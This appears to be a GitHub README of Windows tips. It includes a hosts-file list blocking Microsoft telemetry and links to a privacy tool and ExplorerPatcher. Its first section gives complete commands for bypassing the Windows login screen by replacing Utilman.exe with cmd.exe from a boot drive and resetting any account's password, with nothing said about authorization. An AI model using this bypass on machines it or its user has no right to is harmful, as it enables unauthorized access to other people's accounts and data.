 # Windows Tricks
Guide on certain things Windows

![Wondows-11-Start-661424496](https://github.com/martinjrrr/windows-tricks/assets/91160845/ba9bde7e-cc04-427b-af04-5b11bc566f03)

_______________________________________________________________________________

# Cracking a windows password / bypassing the login screen

Boot Into Your Flash Drive And Type These Commands

`fdisk -l`

`mount -t ntfs /dev/(windows drive) /mnt`

`cd /mnt/Windows/System32`

`cp cmd.exe Utilman.exe`

reboot

Click On The Accesibility Button And Type This Command When The CMD Window Lauches

`net user (User) *` 

## If you try to mount the Windows drive and get an error of hibernation just use the command:

`sudo ntfsfix /dev/sdXY`

ITS POSSIBLE THAT THIS COMMAND CORRUPTS THE WINDOWS FILESYSTEM, KNOW THE POSSIBLE CONSEQUENCES BEFOREHAND 
________________________________________________________________________________

# Anti-Spyware Tool

(O&O Shutup10)[https://www.oo-software.com/de/shutup10]

Kill Spyware and unnecesary bloat in Windows using this utility

make sure that you read trough your selections, this tool can temporarily block key system functions / settings

________________________________________________________________________________

# Host file sinkholing Spyware

    127.0.0.1 localhost
    ::1 localhost
    127.0.0.1 data.microsoft.com
    127.0.0.1 msftconnecttest.com
    127.0.0.1 azureedge.net
    127.0.0.1 activity.windows.com
    127.0.0.1 bingapis.com
    127.0.0.1 msedge.net
    127.0.0.1 assets.msn.com
    127.0.0.1 scorecardresearch.com
    127.0.0.1 edge.microsoft.com
    127.0.0.1 data.msn.com


# Windows 10 Functionality and Patches for Windows 11

Valinet's ExplorerPatcher restores lost Windows 10 functionalities

[Explorer Patcher](https://github.com/valinet/ExplorerPatcher)

![7cdf0ca053358108](https://github.com/martinjrrr/windows-tricks/assets/91160845/47a6be46-808c-4ead-bcf1-5fd76a711728)

